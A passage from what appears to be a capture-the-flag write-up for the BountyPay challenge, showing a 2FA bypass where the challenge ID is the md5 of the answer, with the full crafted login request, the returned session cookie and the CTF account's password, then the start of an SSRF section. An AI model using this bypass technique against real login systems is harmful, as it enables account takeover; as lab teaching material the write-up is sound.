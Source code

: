 ```

username=brian.oliver&password=V7h0inzX&challenge=13d6718efc0a44576c8aad1a6f193521&challenge_answer=myAnswer
```

The request got a **401 Unauthorized** response, which was expected. Bruteforce was not an option, because of the length of the password and the charset that was used. After playing around with the values, I noticed that the `challenge` ID was actually the md5 hash of the answer. Here is a request that will bypass the 2FA, I used the Hackvector Burp extension because it's convenient, but hashing the answer using any other tool works as well. 

```
POST / HTTP/1.1
Host: app.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 87
Origin: https://app.bountypay.h1ctf.com
Connection: close
Referer: https://app.bountypay.h1ctf.com/
Upgrade-Insecure-Requests: 1

username=brian.oliver&password=V7h0inzX&challenge=<@md5_5>a<@/md5_5>&challenge_answer=a 
```

This request got a **302 Found** response with a cookie:

```
HTTP/1.1 302 Found
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 01 Jun 2020 13:30:33 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Set-Cookie: token=eyJhY2NvdW50X2lkIjoiRjhnSGlxU2RwSyIsImhhc2giOiJkZTIzNWJmZmQyM2RmNjk5NWFkNGUwOTMwYmFhYzFhMiJ9; expires=Thu, 01-Jul-2020 13:30:33 GMT; Max-Age=2592000
Location: /
Content-Length: 0
```

Using that cookie I was able to successfully log in as Brian Oliver and got access to the BountyPay dashboard:

{F853777}


# Bypassing the IP restriction on [https://software.bountypay.h1ctf.com/](https://software.bountypay.h1ctf.com/) using SSRF

After I got access to the dashboard I started looking at the requests that were made. There was no pending transaction for that user. I tested the parameters for SQLi without success, but the response returned by the server still looked interesting.
